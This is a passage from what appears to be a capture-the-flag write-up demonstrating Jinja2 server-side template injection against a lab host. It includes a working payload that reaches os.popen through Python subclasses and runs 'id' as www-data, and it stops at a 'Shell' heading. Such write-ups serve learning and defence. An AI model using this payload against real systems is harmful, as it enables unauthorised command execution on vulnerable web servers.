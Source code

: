     
    >>> resp = requests.post('http://10.10.11.131/', json={"siteurl": "{{7*7}}"})
    >>> print(resp.text)
    
        <html>
        <head>
        <title>49 - Coming Soon</title>
        </head>
        <body style="background-image: url('/static/steampunk-3006650_1280.webp');background-size: 100%;background-repeat: no-repeat;"> 
        </body>
        </html>
    

The server saw `{{7*7}}` and interpreted the `7*7` as code it should evaluate,
and returned 49.

#### POC

A more interesting POC would to try to run system commands. HackTricks has a
nice page on SSTI, and in the [Jinja2
section](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-
injection#jinja2-python) has this example to execute commands:

    
    
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
    

I’ll modify it slightly to try to run the `id` command:

    
    
    >>> payload = '''{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('id').read()}}{%endif%}{%endfor%}'''
    

This is finding a way to locate the `import` command and then get the `os`
module without having access to just call `import`, which isn’t possible in
SSTI.

It works:

    
    
    >>> resp = requests.post('http://10.10.11.131/', json={"siteurl": payload})
    >>> print(resp.text)
    
        <html>
        <head>
        <title>uid=33(www-data) gid=33(www-data) groups=33(www-data)
     - Coming Soon</title>
        </head>
        <body style="background-image: url('/static/steampunk-3006650_1280.webp');background-size: 100%;background-repeat: no-repeat;"> 
        </body>
        </html>
    

#### Shell
